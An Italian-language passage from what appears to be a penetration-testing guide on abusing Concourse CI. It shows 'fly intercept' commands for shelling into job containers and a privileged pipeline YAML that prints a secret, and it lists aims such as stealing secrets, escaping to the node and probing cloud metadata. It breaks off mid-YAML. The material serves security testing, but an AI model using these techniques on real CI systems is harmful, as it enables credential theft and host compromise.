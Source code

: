 #### Sessione all'interno di un contenitore in esecuzione o recentemente eseguito

Se hai privilegi sufficienti (**ruolo membro o superiore**) sarai in grado di **elencare pipeline e ruoli** e semplicemente ottenere una **sessione all'interno** del contenitore `<pipeline>/<job>` utilizzando:
```bash
fly -t tutorial intercept --job pipeline-name/job-name
fly -t tutorial intercept # To be presented a prompt with all the options
```
Con questi permessi potresti essere in grado di:

- **Rubare i segreti** all'interno del **container**
- Provare a **fuggire** verso il nodo
- Enumerare/Abusare dell'endpoint **cloud metadata** (dal pod e dal nodo, se possibile)

#### Creazione/Modifica della Pipeline

Se hai privilegi sufficienti (**ruolo membro o superiore**) sarai in grado di **creare/modificare nuove pipeline.** Controlla questo esempio:
```yaml
jobs:
- name: simple
plan:
- task: simple-task
privileged: true
config:
# Tells Concourse which type of worker this task should run on
platform: linux
image_resource:
type: registry-image
source:
repository: busybox # images are pulled from docker hub by default
run:
path: sh
args:
- -cx
- |
echo "$SUPER_SECRET"
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```
Con la **modifica/creazione** di un nuovo pipeline sarai in grado di:

- **Rubare** i **segreti** (facendo l'echo o entrando nel container e eseguendo `env`)
- **Evasione** verso il **nodo** (dandoti abbastanza privilegi - `privileged: true`)
- Enumerare/Abusare dell'endpoint **cloud metadata** (dal pod e dal nodo)
- **Eliminare** il pipeline creato

#### Esegui Compito Personalizzato

Questo è simile al metodo precedente, ma invece di modificare/creare un intero nuovo pipeline puoi **semplicemente eseguire un compito personalizzato** (che sarà probabilmente molto più **furtivo**):
```yaml
# For more task_config options check https://concourse-ci.org/tasks.html
platform: linux
image_resource:
type: registry-image
source:
repository: ubuntu
run:
path: sh
args:
- -cx
- |
```